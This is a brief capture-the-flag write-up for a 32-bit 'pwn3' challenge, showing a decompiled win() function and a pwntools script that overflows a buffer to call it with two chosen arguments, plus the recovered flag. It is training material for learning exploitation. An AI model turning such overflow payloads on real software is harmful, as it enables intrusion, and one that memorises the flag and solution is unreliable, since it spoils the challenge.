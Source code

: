 # pwn / pwn3

> Points: 1892

## Question

```
nc uwctf.ml 6004
```

## Solution

This challenge is the same as pwn2 but with two parameters
```c
void win(int param_1,int param_2) {
    if ((param_1 == -0x21524111) && (param_2 == -0x1123502)) {
        system("/bin/cat ./flag.txt");
    }
    return;
}
```

See the writeup on pwn2 for an explanation on how the parameters are sent.
```python
from pwn import *

exe = ELF("chall3.bin")
p = remote("uwctf.ml", 6004)
p.send(b"A" * 28 + p32(exe.sym["win"]) + b"AAAA" + p32(0xdeadbeef) + p32(0xfeedcafe) + b"\n")
p.clean_and_log(timeout=1)
```

### Flag

`uwctf{buff3r0v3rf10w3_1d479e1fd7a40857}`
